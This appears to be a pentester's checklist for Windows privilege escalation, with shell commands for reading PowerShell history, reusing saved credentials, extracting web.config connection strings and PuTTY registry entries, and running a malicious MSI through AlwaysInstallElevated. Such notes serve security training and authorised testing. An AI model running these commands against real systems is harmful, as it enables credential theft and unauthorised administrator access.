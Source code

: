 [[MSFVenom]]
[[AccessChk]]
[[WES-NG]]
[[PEASS|WinPEAS]]
[[PowerUp.ps1]]
[[SharpUp]]
[[PrivescCheck]]
[[Seatbelt]]

This is a simple and incomplete checklist for escalating Windows access
- Check for Unattended Install Artifacts
	- Unattend.xml
	- sysprep.inf
	- sysprep.xml
	- etc.
- Powershell History
```shell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
- Saved Credentials
```shell
cmdkey /list # list saved
runas /savecred /user:admin cmd.exe # use saved creds
```
- IIS Configurations
	- web.config
```shell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString # Get database connection strings
```
- Software Credentials
	- PuTTY
```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
- Scheduled Tasks
	- Same as Linux cronjobs. 
```shell
schtasks /query /tn <taskname> /fo list /v # use icacls for file permissions
```
- Check for Risky Privileges
	- SeImpersonatePrivilege
	- SeManageVolumePrivilege
	- SeTakeOwnership
	- SeBackup/SeRestore
- Check for Unquoted Service Paths
	- Must be running as system for full access, or insecure service perms. 
```powershell
wmic service get name, pathname
```
- Check for Insecure Service Permissions
	- Be sure not to introduce Unquoted Service Paths while establishing persistence. 
- Check for Insecure Service Executables
- Check for Weak Registry Permissions on Services
- Check for Weak Permissions on Autorun Executables
- Check for AlwaysInstallElevated Reg Key
```shell
# If both of these are set, you can generate a malicious msi and it will run with Admin privs
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

# Run an msi (with admin!!!)
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
- [[PEASS|WinPEAS]]
	- Quick and easy check for many misconfigurations
	- Comes in .exe and .bat formats, recommend .exe but signatured. 

# For Later
![[Windows-Priv-Esc.png]]